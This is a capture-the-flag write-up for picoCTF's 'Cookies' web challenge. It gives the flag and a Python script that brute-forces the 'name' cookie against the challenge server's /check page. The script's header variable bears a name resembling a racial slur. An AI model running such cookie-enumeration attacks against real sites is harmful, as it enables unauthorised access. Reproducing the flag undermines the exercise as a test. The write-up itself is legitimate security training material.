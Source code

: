 # Cookies

### Flag: picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535} 


    - The Challenge is Called Cookies so Naturally First thought is that is has something to do with Web Cookies.
    - The Challenge Description provides us links to the following web-app `http://mercury.picoctf.net:17781/`

    - ![Home Image](assets/web_home.png)
    
    - Inspecting the Dev panel we notice something very interesting, There's a Cookie called "name" with the values "-1"
    - Ok lets Explore further 

    - ![Requests Image](assets/request_image.png) Next typing the prompt on the text box gives us 2 Network Requests as seen on the image. 

    - Ok, now lets try with something random in the box

    - ![invalid Request Image](assets/random_req_image.png) 

    - so it seems that when we search a valid string  the search sets up the name cookie redirects us to '/check' and if not it just sends us back to the home page
    - We need to Find the valid cookie value for the flag, 
```
import requests


for i in range(100):
    print(i) #debugging
    changed_values = f"name={i}"
    niga={'Cookie': changed_values}


    r=requests.get("http://mercury.picoctf.net:17781/check",headers=niga)

    if "picoCTF" in r.text:
        print(r.text)
        break
```
    - This Code Prints the Html oF the page with the flag. 
    - looking through the html we get the flag. 
